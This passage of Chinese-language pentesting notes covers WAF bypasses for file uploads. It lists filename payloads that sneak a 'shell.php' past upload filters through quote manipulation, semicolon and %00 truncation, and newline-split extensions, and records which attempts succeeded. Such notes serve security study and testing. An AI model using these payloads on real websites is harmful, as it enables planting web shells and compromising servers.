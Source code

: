- filename去掉最后一个双引号，在文件名后缀前任意位置加空格(可绕过WAF，可上传，可行)

![img](https://img.yatjay.top/md/202203021100944.png)

- 单引号与双引号一致
- 只在末尾加双引号(被拦截)

![img](https://img.yatjay.top/md/202203021100574.png)

- 文件名前加双引号或单引号(无法解析)

文件名前加双引号或单引号可绕过waf，也可上传，但是无法解析。

![img](https://img.yatjay.top/md/202203021101652.png)

- 文件名中加入图片后缀提前用分号截断

#### 3. 数据截断

可用payload

```plain
filename="x.jpg;shell.php"
filename="x.jpg;shell.php
filename='x.jpg;shell.php
filename="shell.php%00xx.jpg" 注意%00要编码
```

- 文件名中加入图片后缀提前用分号截断(可行)

原因是防护软件只检测前面的部分，一旦正确就放行，不再检测后面的

前三个payload均可绕过

![img](https://img.yatjay.top/md/202203021101021.png)

- 文件名中用%00url编码截断(可行)

![img](https://img.yatjay.top/md/202203021101613.png)

#### 4. 数据换行截断

​     可用payload

```plain
x.ph
p

x.p
h
p

x.
p
h
p

x
.
p
h
p
```
